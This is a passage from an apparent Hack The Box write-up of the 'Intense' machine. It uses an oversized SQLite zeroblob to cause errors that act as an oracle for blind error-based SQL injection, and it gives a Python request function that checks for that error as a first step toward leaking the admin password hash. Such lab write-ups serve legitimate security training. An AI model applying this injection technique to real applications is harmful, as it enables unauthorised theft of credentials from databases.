 Using `1` number of zero-bytes, we get an `OK` as a response. Burp's Intruder can be used to examine such behavior. Using a numeric-iterating payload, we can check how zeroblob behaves with large amounts of bytes (about 999MB).

![Burp intruder payloads](/assets/htb/Intense/web/burp/zeroblob-intruder.png)

From 999999995 upwards we get 188 bytes of response instead of 167 bytes.

167 bytes equals to `OK`. Now let us manually send `999999999` and see what response we get instead.

![zeroblob causing an error](/assets/htb/Intense/web/burp/zeroblob-error.png)

We get `string or blob too big` as a response. This means that the server defined max size for blobs was exceeded. The actual cause of the error is not really relevant, only that we can cause one to work with our conditional error-based sql-injection.

#### Leaking the admin-hash

We can now create a loop to extract the secret of the admin user from the database. First we create a function to send messages and check if we get an error or not.

```python
# Sends payload and returns true if zeroblob error occured
def inject(payload):
    #print(f"[DEBUG]\ninsert into messages values ('{payload}')")
    data = {'message':payload}
    try:
        r = requests.post('http://10.10.10.195/submitmessage', data=data) #proxies=proxies)
        if r.status_code != 500:
            #print(r.text) # Print response
            if "OK" not in r.text and "blob too big" in r.text: # Error occured --> check if zeroblob error
                # Valid char found
                return True
        # Error or not valid char
        return False
    except:
        return False
```

